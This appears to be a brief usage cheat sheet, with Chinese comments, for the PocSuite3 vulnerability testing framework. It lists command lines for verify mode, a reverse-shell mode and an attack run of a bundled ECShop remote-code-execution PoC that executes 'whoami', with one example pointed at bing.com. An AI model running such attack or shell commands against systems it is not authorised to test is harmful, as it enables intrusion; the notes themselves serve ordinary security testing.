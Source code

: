 # PocSuite3

- 官网：​http://pocsuite.org/​
- 源码：https://github.com/knownsec/pocsuite3

<!-- scp poc.py ubuntu@dev404:/mnt/src/ -->

```
pocsuite -u http://www.bing.com -r poc.py --verify

pocsuite -r poc.py -u www.bing.com --shell --ppt

pocsuite -u http://test.com -r test.py --verify #使用test.py这个PoC去检测http://test.com这个url
pocsuite -u http://test.com -r test.py --verify --shell # shell反连模式
pocsuite -u http://test.com -r ecshop_rce.py --attack --command "whoami" # pocsuite3中自带的ecshop poc中实现了自定义命令`command`,可以从外部参数传递
pocsuite -f url.txt -r test.py --verify #使用test.py这个PoC去检测url.txt文件里所有的url
```
